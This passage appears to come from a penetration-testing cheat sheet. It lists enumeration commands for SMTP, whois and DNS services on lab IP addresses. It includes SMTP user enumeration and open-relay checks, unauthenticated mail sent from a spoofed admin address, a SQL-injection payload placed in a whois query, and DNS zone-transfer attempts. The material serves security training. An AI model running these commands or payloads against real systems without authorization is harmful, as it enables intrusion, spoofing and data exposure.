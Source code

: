 ### Port 25 - SMTP

```
nc -nvv 10.11.1.111 25
HELO foo

telnet 10.11.1.111 25
VRFY root

nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.11.1.111
smtp-user-enum -M VRFY -U /root/sectools/SecLists/Usernames/Names/names.txt -t 10.11.1.111

# SMTP relay
msfconsole
use auxiliary/scanner/smtp/smtp_relay
set RHOSTS <IP or File>
set MAILFROM <PoC email address>
set MAILTO <your email address>
run

# Send email unauth:

MAIL <FROM:admin@admin.com>
RCPT <TO:DestinationEmail@DestinationDomain.com>
DATA
test

.

Receive:
250 OK

```

### Port 43 - Whois

```
whois -h 10.10.1.111 -p 43 "domain.com"
echo "domain.com" | nc -vn 10.10.1.111 43
whois -h 10.10.1.111 -p 43 "a') or 1=1#"

```

### Port 53 - DNS

```
# Transfer zone

dig AXFR domain.com @10.10.10.10
# dig +multi AXFR @ns1.insecuredns.com insecuredns.com
dnsrecon -t axfr -d domain
fierce -dns domain.com

```
